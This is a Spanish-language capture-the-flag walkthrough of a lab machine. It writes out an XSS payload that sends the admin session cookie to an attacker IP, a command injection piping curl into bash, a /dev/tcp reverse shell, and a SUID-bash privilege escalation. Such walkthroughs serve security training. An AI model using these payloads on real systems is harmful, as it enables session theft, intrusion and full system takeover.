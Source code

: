 
Primero realzaremos un escaneo de puertos con nmap.

`sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.11.8 -oN escaneo`
<img src="Pasted image 20240424100119.png">

Seguidamente al ver que esconde el puerto 5000, para ello introducimos la ip seguida de dos puntos con el puerto.
<img src="Pasted image 20240424100249.png">

Vemos que esconde una web. Para ello haremos un fuzzing con dirsearch.
`dirsearch -u http://10.10.11.8:5000/`
<img src="Pasted image 20240424100701.png">

Entraremos a ver que esconde la pagina support.
<img src="Pasted image 20240424100826.png">

Veamos que tiene un formulario, veremos que hace si se lo rellenamos todo.
<img src="Pasted image 20240424101018.png">

Que hay un overflow, cuando sucede esto, podemos atacarlo con XSS. Para ello abriremos burpsuite para interceptar la petición al servidor.
<img src="Pasted image 20240424101405.png">

Una vez no tenemos, volveremos a nuestra consola, y abriremos un servidor python para que nos mande la cookie de sesión de administrador a nuestra máquina.
`python3 -m http.server 80`
<img src="Pasted image 20240424101532.png">

Una vez estamos a la escucha, volveremos al burpsuite y pondremos la siguinte sintaxis de JavsScript en "User Agent" y en el el mensaje de abajo. 
`<img src=x onerror=fetch('http://10.10.14.68/?c='+document.cookie);>`
<img src="Pasted image 20240424101911.png">

Lo mandaremos al repeter y lo enviaremos al rervidor, si todo va bien, en menos de un minuto nos tiene que dar la cookie de sesión en el servidor python.
<img src="Pasted image 20240424102247.png">
Al ver este mensaje, es buena señal, así que iremos la consola y esperaremos un minuto.
<img src="Pasted image 20240424102342.png">

Nos guardaremos la cookie para luego poder suplantarla. Cerraremos el burpsuite y volveremos a la paguina inicial de la web. Retomando el fuzzing de antes, a parte de suport, teniamos una página llamada dashboard, entraremos en ella.
<img src="Pasted image 20240424102646.png">

Nos sale que no estamos autorizados, pero no hay problema porque tenemos la cookie de administrador, asi que solo nos queda suplantarla. Para ello iremos a inspeccionar --> storage.
<img src="Pasted image 20240424102839.png">

Alli pegamos la nueva cookie en la que hay, de tal forma que se sobreescriba.
<img src="Pasted image 20240424102927.png">

Reiniciaremos la página. Y veremos la página al 100%, ahora intentaremos poder conseguir la shell del servidor, para ello vamos a interceptar la peticion con burpsuite.
<img src="Pasted image 20240424103730.png]]

Irmos al la consola y crearemos un harchivo html con contenido bash para poder ejecutar una reverse shell en el servidor.
`#!/bin/bash`
`sh -i >& /dev/tcp/10.10.14.68/4444 0>&1`
<img src="Pasted image 20240424103933.png">

Una vez lo tengamos, volveremos a encender un servidor python para poder hostear el archivo.
<img src="Pasted image 20240424104216.png">

Abriremos otro terminal y nos pondremos a la escucha con netcat en el puerto que hemos elegido.
`nc -lvnp 4444`
<img src="Pasted image 20240424104342.png">

Una vez lo tenemos, iremos al burpsuite y en date pondremos un ";" y pondremos el siguiente comando , lo mandaremos al repeter y lo enviaremos, con esto tendremos la shell.
`curl 10.10.14.68/index.html | bash`
<img src="Pasted image 20240424104600.png">
<img src="Pasted image 20240424104625.png">
Si al darle a enviar el botón send se nos pone de color gris, sera buena señal porque tendremos la shell.
<img src="Pasted image 20240424104714.png">
En el dolar escribiremos el siguiente comando para ver la ruta.
`script /dev/null -c bash`
<img src="Pasted image 20240424104823.png">

Con esto ya estaremos dentro, ahora buscaremos la flag de usuario.
<img src="Pasted image 20240424105032.png">

Una vez la tenemos, solo nos quedará escalar privilegios, para ello vermos que binarios tienen permiso de root. 
`sudo -l`
<img src="Pasted image 20240424105222.png">

Vemos que tiene este binario con permisos de administrador. Miraremos el contenido del binario para ver si obtenemos una pista.
`strings /usr/bin/syscheck`
<img src="Pasted image 20240424105522.png">

Vemos que tiene un archivo bash, le añadiremos el script `chmod u+s /bin/bash` dentro de el archivo para poder ejecutar lo que queramos. Para ello haremos:
`echo "chmod u+s /bin/bash">initdb.sh`
<img src="Pasted image 20240424110607.png">

Seguidamente, le daremos permisos al archivo bash y lo ejecutaremos.
<img src="Pasted image 20240424110733.png">

Finalmente lo ejecutaremos.
`./initdb.sh`
<img src="Pasted image 20240424111034.png">
Finalmente ejecutaremos un comando mas para tener acceso root.
`/bin/bash -p`
<img src="Pasted image 20240424111222.png">
